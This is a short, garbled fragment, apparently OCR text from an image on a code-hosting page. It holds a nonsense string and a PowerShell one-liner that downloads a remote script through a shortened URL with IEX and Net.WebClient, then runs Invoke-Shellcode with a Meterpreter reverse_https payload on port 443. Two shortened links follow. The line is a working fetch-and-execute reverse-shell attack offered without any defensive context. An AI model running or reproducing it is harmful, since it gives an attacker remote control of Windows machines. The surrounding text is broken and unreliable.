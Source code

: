 2
=
GGGHHHJJJ_now
FocusmazmanFocus

RunIEX (New-Object Net.WebClient).DownloadString('http://fur.ly/b357');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run


http://fur.ly/b357


http://bit.ly/14bZZ0c
